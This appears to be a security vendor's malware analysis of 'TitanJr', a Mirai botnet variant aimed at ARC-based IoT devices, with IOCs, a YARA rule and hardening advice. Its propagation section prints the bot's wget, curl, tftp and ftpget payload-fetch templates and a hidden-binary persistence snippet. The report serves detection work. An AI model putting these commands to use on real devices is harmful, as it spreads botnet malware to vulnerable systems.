







# Mirai TitanJr: IoT Botnet Variant Targeting ARC Architecture

**Analysis Date:** February 22, 2026  
**Severity:** High  
**MITRE ATT&CK:** T1059.004 (Unix Shell), T1071.001 (Web Protocols), T1498.001 (Network Flood)

## Executive Summary

On February 22, 2026, threat researchers identified a new Mirai botnet variant named "TitanJr" targeting the ARCompact ARC700 processor architecture—a relatively rare target used in specialized IoT devices and embedded systems. This variant demonstrates sophisticated evasion techniques with low detection rates (12/76 engines, 15.8%) while maintaining classic Mirai propagation and DDoS capabilities.

**Key Findings:**
- **Architecture:** ARCompact ARC700 (32-bit embedded processor)
- **Detection Rate:** 12/76 (15.8%) on VirusTotal
- **Size:** 122 KB (statically linked, stripped)
- **Persistence:** Hidden binary (`/usr/bin/.sh`)
- **Propagation:** Multi-protocol (HTTP, FTP, TFTP)
- **First Seen:** February 22, 2026

## Sample Information



| Property | Value |
|----------|-------|
| **SHA256** | `8dab2697dd22b6ee54fe70e1797811cce578b271753e17b79699cfb81b09df58` |
| **MD5** | `36f9d5c726233ac35f1a4d58b6032ad4` |
| **Type** | ELF 32-bit LSB executable |
| **Architecture** | Synopsys ARCompact ARC700 cores |
| **File Size** | 121.8 KB (124,704 bytes) |
| **First Submission** | 2026-02-22 02:00 UTC |
| **Source** | MalwareBazaar (DE) |

## Technical Analysis

### Binary Structure



The sample is a statically-linked, stripped ELF binary targeting the ARC architecture—a less common IoT processor family used in specialized embedded devices, set-top boxes, and automotive systems.

**Section Analysis:**
- `.text` (85,560 bytes): Main code section containing bot logic
- `.rodata` (35,592 bytes): Read-only data including C2 addresses (likely XOR-encoded)
- `.bss` (47,968 bytes): Large uninitialized data segment (session tracking, scan state)



**ELF Header:** `7F 45 4C 46 01 01 01 00 00 00 00 00 00 00 00 00 02 00 5D 00`
- Magic: `0x7F454C46` (ELF)
- Class: 32-bit (`01`)
- Endianness: Little-endian (`01`)
- Machine: `0x5D` (ARCompact, EM_ARCOMPACT)

### Propagation Mechanism



TitanJr uses multi-protocol binary propagation, typical of Mirai variants:

```bash
# HTTP downloads
wget http://%s/%s/%s -O %s
curl -o %s http://%s/%s/%s

# TFTP transfers
tftp %s -c get %s %s
cd %s && tftp -g -r %s %s

# FTP anonymous access
ftpget -v -u anonymous -p anonymous -P 21 %s %s %s
```

**Propagation Flow:**
1. Scan TCP ports (23, 2323, 7547, 80, 8080, 5555)
2. Brute-force credentials (likely XOR-encoded table)
3. Download payload via HTTP/FTP/TFTP
4. Execute and establish persistence

### Persistence Technique

```bash
cp %s /usr/bin/.sh
#!/bin/sh
/usr/bin/.sh &
```

The malware:
1. Copies itself to `/usr/bin/.sh` (hidden name)
2. Creates a shell script wrapper
3. Executes in the background with `&`
4. Monitors `/proc/self/exe` for deletion

### Evasion & Anti-Analysis

**User-Agent Spoofing:**



```
Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/45.0.2454.85
Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/42.0.2311.135 Safari/537.36 Edge/12.10240
Mozilla/5.0 (Macintosh; Intel Mac OS X 10.10; rv:40.0) Gecko/20100101 Firefox/40.0
```

**Process Enumeration:**
- `/proc/PID/cmdline` → Detect competing bots
- `/proc/net/tcp` → Identify listening services
- `/proc/PID/exe` → Kill processes by binary path

**Anti-Debugging:**
- Stripped symbols (no function names)
- Statically linked (no library dependencies)
- Architecture obscurity (limited ARC tooling)

### VirusTotal Analysis



**Detection Rate:** 12/76 (15.8%)

**Notable Detections:**
- **DrWeb:** `Linux.Mirai.9876`
- **Kaspersky:** `HEUR:Backdoor.Linux.Mirai.b`
- **Microsoft:** `Backdoor:Linux/Mirai.GS!MTB`
- **Fortinet:** `ELF/Condi.CDB!tr.botnet`

**Low Detection Factors:**
1. Rare architecture (ARC) → Limited AV coverage
2. Fresh variant (uploaded Feb 22, 2026)
3. Custom packer/obfuscation (table encoding)
4. Statically linked binary (no import-based signatures)

## Indicators of Compromise (IOCs)

### File Hashes

| Hash Type | Value |
|-----------|-------|
| **SHA256** | `8dab2697dd22b6ee54fe70e1797811cce578b271753e17b79699cfb81b09df58` |
| **MD5** | `36f9d5c726233ac35f1a4d58b6032ad4` |

### File Paths

```
/usr/bin/.sh
/usr/bin/wget
/usr/bin/curl
/usr/sbin/tftp
/usr/sbin/ftpget
/proc/self/exe
/dev/null
```

### Network Indicators

**Protocols Used:**
- HTTP (binary download)
- FTP (port 21, anonymous login)
- TFTP (binary transfer)
- Telnet (port 23, 2323 - credential brute-force)

**Scanning Targets:**
- TCP/23 (Telnet)
- TCP/2323 (Alternate Telnet)
- TCP/80, 8080 (HTTP)
- TCP/7547 (TR-069 CPE WAN Management)
- TCP/5555 (Android Debug Bridge)

## MITRE ATT&CK Mapping

| Tactic | Technique | Description |
|--------|-----------|-------------|
| **Execution** | T1059.004 (Unix Shell) | Executes shell commands for persistence and propagation |
| **Persistence** | T1543.002 (Systemd Service) | Creates `/usr/bin/.sh` for background execution |
| **Discovery** | T1057 (Process Discovery) | Enumerates `/proc/PID/cmdline` to detect competing malware |
| **Discovery** | T1046 (Network Service Scanning) | Scans TCP ports 23, 2323, 80, 7547, 5555 |
| **Credential Access** | T1110.001 (Password Guessing) | Brute-forces default credentials on Telnet/SSH |
| **Command and Control** | T1071.001 (Web Protocols) | HTTP-based C2 communication |
| **Impact** | T1498.001 (Direct Network Flood) | DDoS attack capability (UDP/TCP/SYN floods) |

## YARA Rule



```yara
rule Mirai_TitanJr_ARC_Feb2026 {
    meta:
        description = "Detects Mirai TitanJr variant targeting ARC architecture (Feb 2026)"
        author = "Peris.ai Threat Research Team"
        date = "2026-02-22"
        sample_sha256 = "8dab2697dd22b6ee54fe70e1797811cce578b271753e17b79699cfb81b09df58"
        reference = "MalwareBazaar"
        severity = "high"
    
    strings:
        // ELF header for ARC architecture
        $elf_arc = { 7F 45 4C 46 01 01 01 00 00 00 00 00 00 00 00 00 02 00 5D 00 }
        
        // Mirai propagation commands
        $prop1 = "wget http://%s/%s/%s -O %s" ascii
        $prop2 = "curl -o %s http://%s/%s/%s" ascii
        $prop3 = "tftp %s -c get %s %s" ascii
        $prop4 = "ftpget -v -u anonymous -p anonymous -P 21 %s %s %s" ascii
        
        // Persistence mechanism
        $persist1 = "cp %s /usr/bin/.sh" ascii
        $persist2 = "/usr/bin/.sh &" ascii
        
        // Process/network enumeration
        $enum1 = "/proc/%d/cmdline" ascii
        $enum2 = "/proc/net/tcp" ascii
        $enum3 = "/proc/self/exe" ascii
        
        // User-Agent spoofing
        $ua1 = "Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36" ascii
        $ua2 = "Mozilla/5.0 (Macintosh; Intel Mac OS X 10.10; rv:40.0)" ascii
        
        // Binary utilities
        $util1 = "/usr/bin/busybox" ascii
        $util2 = "/usr/bin/wget" ascii
        $util3 = "/usr/sbin/tftp" ascii
    
    condition:
        uint32(0) == 0x464c457f and  // ELF magic
        filesize < 200KB and
        $elf_arc and
        3 of ($prop*) and
        2 of ($persist*) and
        2 of ($enum*) and
        1 of ($ua*) and
        2 of ($util*)
}
```

**Test Result:** ✅ Successfully detected sample

## Recommendations

### Immediate Actions

1. **Block IOCs:**
   - Hash: `8dab2697dd22b6ee54fe70e1797811cce578b271753e17b79699cfb81b09df58`
   - File path: `/usr/bin/.sh`

2. **Network Monitoring:**
   - Monitor outbound connections on ports 23, 2323, 7547, 80
   - Alert on anonymous FTP (user: `anonymous`, pass: `anonymous`)
   - Detect TFTP binary transfers

3. **Endpoint Detection:**
   - Search for hidden binaries in `/usr/bin/.sh`
   - Monitor process creation from `/proc/self/exe`
   - Alert on mass Telnet/SSH connection attempts

4. **IoT Device Hardening:**
   - Change default credentials
   - Disable unnecessary services (Telnet, TFTP, FTP)
   - Apply firmware updates from vendors
   - Segment IoT devices on isolated VLANs

### Long-Term Mitigations

- **Network Segmentation:** Isolate IoT devices from critical systems
- **Credential Management:** Enforce strong, unique passwords
- **Service Hardening:** Disable Telnet; use SSH with key authentication
- **Monitoring:** Deploy network detection systems for Mirai propagation patterns
- **Threat Intelligence:** Subscribe to IoT botnet feeds (MalwareBazaar, Abuse.ch)

## Threat Intelligence Context

### Campaign Details

- **Campaign Name:** Mirai TitanJr
- **First Seen:** February 22, 2026
- **Target Geography:** Global (sample submitted from Germany)
- **Target Devices:** ARC-based embedded systems (specialized IoT, automotive, set-top boxes)

### Attribution

This variant follows the Mirai-as-a-Service model, where threat actors can purchase/rent access to the botnet infrastructure. The targeting of ARC architecture suggests:

1. **Specialized targeting:** ARC processors are uncommon, indicating deliberate research
2. **Automated scanning:** Mass internet-wide scanning for vulnerable devices
3. **DDoS-for-hire:** Likely used by cybercriminal groups for DDoS attacks

### Related Campaigns

- **Mirai (original):** Dyn DDoS attack (2016)
- **Satori:** Exploited Huawei router RCE (2017-2018)
- **Mozi:** P2P-based variant (2019-2021)

## Conclusion

Mirai TitanJr represents a continued evolution of the Mirai botnet family, now targeting niche embedded architectures. With a low detection rate of 15.8% and sophisticated evasion techniques, this variant poses a significant threat to organizations deploying ARC-based IoT devices.

**Key Takeaways:**
- ✅ YARA rule successfully detects variant
- ⚠️ Low AV coverage (12/76 engines)
- 🎯 Targets specialized ARC architecture
- 🔄 Classic Mirai TTP (propagation, persistence, DDoS)

Organizations should prioritize IoT security posture assessments, enforce strong authentication, and deploy network-based detection mechanisms to mitigate this and similar threats.

---

**Sample Source:** [MalwareBazaar](https://bazaar.abuse.ch/sample/8dab2697dd22b6ee54fe70e1797811cce578b271753e17b79699cfb81b09df58/)  
**Analysis Date:** February 22, 2026  
**Report Classification:** TLP:WHITE (Public)
